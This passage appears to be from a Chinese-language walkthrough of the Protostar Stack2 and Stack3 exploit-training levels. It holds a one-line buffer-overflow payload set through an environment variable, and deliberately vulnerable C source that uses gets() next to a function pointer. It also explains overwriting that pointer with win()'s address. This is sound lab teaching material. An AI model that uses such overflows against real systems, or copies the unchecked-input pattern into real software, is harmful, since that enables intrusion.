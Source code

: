 linux中**$\(\)** 和 **\`\`**都是用来做命令替换用的。

### EXP

```text
export GREENIE=$(python -c "print('A' * 64 + '\x0a\x0d\x0a\x0d')"); ./stack2
```

## Stack3

### About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack \(as a prelude to overwriting the saved EIP\)

**Hints**

* both gdb and objdump is your friend you determining where the win\(\) function lies in memory.

This level is at /opt/protostar/bin/stack3

### Source code

{% code title="stack3.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
{% endcode %}

有个**函数指针**，通过**gets**将**fp的内容**覆盖成**win函数的地址**\(前提是没有开`PIE`\)。

